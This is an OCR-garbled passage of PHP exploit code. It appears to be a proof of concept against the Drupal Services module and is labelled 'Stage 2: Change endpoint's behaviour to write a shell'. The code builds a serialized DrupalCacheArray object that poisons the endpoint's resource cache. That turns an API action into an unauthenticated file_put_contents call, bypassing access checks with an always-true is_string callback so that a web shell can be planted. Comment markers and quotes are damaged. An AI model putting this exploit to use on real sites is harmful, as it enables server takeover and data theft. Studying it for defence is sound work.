     unset($user->signature_format);
    store(‘user’, $user);
    if($cache === false)
    {
    e(“Unable to obtains endpoint’s cache value”);
    }
    x(“Cache contains “ . sizeof($cache) . “ entries”);
    Stage 2: Change endpoint’s behaviour to write a shell
    class DrupalCacheArray
    {
    Cache ID
    protected $cid = “services:endpoint_name:resources”;
    Name of the table to fetch data from.
    Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()
    protected $bin = ‘cache’;
    protected $keysToPersist = [];
    protected $storage = [];
    function __construct($storage, $endpoint, $controller, $action) {
    $settings = [
    ‘services’ => [‘resource_api_version’ => ‘1.0’]
    ];
    $this->cid = “services:$endpoint:resources”;
    If no endpoint is given, just reset the original values
    if(isset($controller))
    {
    $storage[$controller][‘actions’][$action] = [
    ‘help’ => ‘Writes data to a file’,
    Callback function
    ‘callback’ => ‘file_put_contents’,
    This one does not accept “true” as Drupal does,
    so we just go for a tautology
    ‘access callback’ => ‘is_string’,
    ‘access arguments’ => [‘a string’],
    Arguments given through POST
    ‘args’ => [
    0 => [
    ‘name’ => ‘filename’,
    ‘type’ => ‘string’,
    ‘description’ => ‘Path to the file’,
    ‘source’ => [‘data’ => ‘filename’],
    ‘optional’ => false,
    ],
    1 => [
    ‘name’ => ‘data’,
    ‘type’ => ‘string’,
    ‘description’ => ‘The data to write’,
    ‘source’ => [‘data’ => ‘data’],
    ‘optional’ => false,
    ],
    ],
    ‘file’ => [
    ‘type’ => ‘inc’,
    ‘module’ => ‘services’,
    ‘name’ => ‘resources/user_resource’,
    ],
    ‘endpoint’ => $settings
    ];
    $storage[$controller][‘endpoint’][‘actions’] += [
    $action => [
    ‘enabled’ => 1,
    ‘settings’ => $settings
    ]
    ];
    }